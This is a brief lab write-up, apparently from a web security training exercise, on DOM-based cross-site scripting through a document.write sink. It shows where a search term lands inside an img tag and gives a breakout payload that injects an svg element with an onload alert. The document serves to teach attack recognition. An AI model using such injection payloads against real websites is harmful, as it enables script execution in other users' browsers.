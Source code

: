 # Lab 2: DOM XSS in document.write Sink

## Analysis
The string inputed in the search bar was found in the following snippet from Inspecting:
```
<img src="/resources/images/tracker.gif?searchTerms=myTestWords">
```

XSS that might break out and load a script:
```
"><svg onload=alert(1)>
```